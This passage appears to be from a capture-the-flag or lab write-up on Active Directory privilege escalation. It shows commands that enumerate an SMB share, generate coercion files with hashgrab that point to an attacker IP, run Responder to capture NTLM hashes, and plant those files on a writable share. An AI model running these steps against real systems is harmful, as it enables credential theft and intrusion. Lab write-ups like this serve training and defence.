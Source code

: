### Observations

- Unlike `r.widdleton`, the account `h.potch` has **read and write access to the `File-Share` share**.
    
- This share was enumerated further to identify sensitive files, configuration data, or credentials that could aid in privilege escalation.


### File-Share Content Enumeration
Recursive enumeration was attempted with NetExec:

```bash
netexec smb 10.0.16.170 -u h.potch -p 'Password2' --spider File-Share --depth 5 
```

No accessible files or directories of interest were found, however as the share permits write access, there is potential to drop malicious content. 


## Privilege Escalation – SMB Relay via Malicious LNK

With write access to `File-Share`, I created a malicious `.lnk` file designed 
to capture NTLM hashes from users browsing the share.

### Crafting the Malicious LNK
```bash
hashgrab -smb 10.0.16.XXX -o malicious.lnk
```

### Deploying Malicious Files

Hashgrab generated several files designed to coerce authentication requests:

- @important.scf
- @important.url
- important.library-ms
- desktop.ini
- lnk_457.ico

### Capturing Hashes with Responder

A Responder listener was started on the attacker machine:

```bash
sudo responder -I tun0 -dwv
```

These were uploaded to the writable `File-Share`:

```bash
smbclient -U 'BUILDINGMAGIC.LOCAL\h.potch' //10.0.16.170/File-Share
put @important.scf
put @important.url
put important.library-ms
put desktop.ini
put lnk_457.ico
```
